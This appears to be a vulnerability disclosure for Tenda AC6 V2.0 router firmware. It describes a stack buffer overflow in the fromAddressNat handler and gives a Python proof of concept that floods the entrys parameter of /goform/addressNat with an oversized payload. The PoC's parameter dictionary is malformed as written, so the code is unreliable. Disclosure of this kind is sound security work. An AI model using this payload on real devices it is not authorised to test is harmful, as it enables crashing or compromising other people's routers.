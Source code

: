 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromAddressNat"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

Within the `fromAddressNat` function, a user can craft a POST request to supply three parameters: **`entrys`**, **`mitInterface`**, and **`page`**. These parameters are then directly passed to stack-allocated variables using `sprintf` **without any prior validation or checks**. Any one of these three parameters can independently lead to a **stack overflow**.

![image-20250618173006573](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618173006573.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'entrys':payload,#vuln
            'mitInterface':b'1',#vuln
            'page':b'1'#vuln}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2000+b'\n'
url="http://192.168.1.1/goform/addressNat"
send_payload(url, payload)   
```

![image-20250618173624226](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618173624226.png)